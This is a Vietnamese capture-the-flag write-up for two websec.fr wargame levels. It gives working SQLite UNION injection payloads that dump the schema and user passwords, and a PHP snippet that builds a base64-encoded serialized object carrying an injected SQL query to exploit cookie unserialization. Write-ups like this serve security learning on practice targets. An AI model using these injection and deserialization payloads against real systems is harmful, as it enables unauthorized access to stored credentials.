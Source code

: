 ```yaml
---
title: websec.fr
description: websec.fr
summary: Write up of some Web challenge in websec.fr
cover: ./cover.jpg
published: '2022-02-02T22:00:00.000+08:00'
updated: '2022-02-02T12:00:00.000+08:00'
tags:
  - [ wargame ]
---
```


# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```
